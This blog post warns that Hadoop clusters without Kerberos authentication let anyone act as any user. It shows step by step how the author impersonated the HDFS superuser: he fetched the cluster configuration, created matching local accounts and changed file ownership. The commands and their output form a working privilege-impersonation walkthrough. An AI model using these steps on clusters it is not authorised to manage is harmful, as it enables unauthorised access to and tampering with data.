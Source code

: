 ```yaml
---
title: Hadoop and no auth?
tags: hadoop hack hdfs yarn security authentication
---
```


Have you setup a hadoop cluster and enabled no authentication for it (kerberos)? You definitely need to read this.

Recently I was working with an engineer who was setting up a HBase cluster and restore some data into it. He uploaded the data to HDFS, setup the hbase data directory configuration and booted the HBase. But the HBase started complaining as follows.

```
Caused by: org.apache.hadoop.ipc.RemoteException(org.apache.hadoop.security.AccessControlException): Permission denied: user=userB, access=WRITE, inode="/foo/bar/hbase":userA:groupZ:drwxr-xr-x
```

So HMaster is not able to read the files in `/foo/bar/hbase` directory as `userB`, because the files are owned by `userA`.

As we were working remotely, I was supposed to ask him the credentials of a Hadoop node from where I could the change the owner of these files. But I didn't. I knew that the HDFS cluster is insecure and I had hadoop binaries on my machine. I just pointed my hadoop tools to his HDFS cluster. Here is how

1. Download the configurations from his cluster
    ```bash
    $ whoami
    mmp
    $ mkdir /tmp/newconf
    $ cd /tmp/newconf
    $ wget http://hdfs.node.com:50070/conf  #namenode http url
    ```

2. Make more copies (hadoop tools, by default load them)
    ```bash
    $ cp conf hdfs-site.xml
    $ cp conf yarn-site.xml
    $ cp conf core-site.xml
    $ cp conf mapred-site.xml
    $ chmod -R 777 /tmp/newconf # let others use them ;)
    ```

3. Point the tools to this new directory
    ```bash
    $ export HADOOP_CONF_DIR=/tmp/newconf
    ```

4. Run the tools
    ```bash
    $ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    chown: changing ownership of '/foo/bar/hbase': Permission denied. user=mmp is not the owner of inode=hbase
    ```

5. Since the I had logged in as `mmp`, tools I was running were enacting as `mmp`. So I created `userA` in my local machine
    ```bash
    $ useradd userA
    $ sudo su - userA
    [userA@localhost]$ export HADOOP_CONF_DIR=/tmp/newconf
    [userA@localhost]$ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    chown: changing ownership of '/foo/bar/hbase': Non-super user cannot change owner
    ```

6. Now, `userA` was not defined as a superuser in HDFS configuration, so I can't run this `chown` as `userA`. But `hdfs` user definitely can 
    ```bash
    $ useradd hdfs
    $ sudo su - hdfs
    [hdfs@localhost]$ export HADOOP_CONF_DIR=/tmp/newconf
    [hdfs@localhost]$ hdfs dfs -chown -R userB:groupY /foo/bar/hbase
    [hdfs@localhost]$ hdfs dfs -ls /foo/bar/hbase
    Found 4 items
    drwxr-xr-x   - userB groupY          0 2020-09-09 22:05 /foo/bar/hbase
    ...
    ```

## Conclusion
1. If you have a insecure cluster, it's open for attacks. Attackers can login as any user by
    1. Logging in as the required user in their machine and connecting to your cluster.
    2. Setting the `HADOOP_USER` environment variable to whatever value they want to (`hdfs`, `yarn` which are superusers)
2. I have even seen the Hadoop clusters on Cloud attacked to mine bitcoins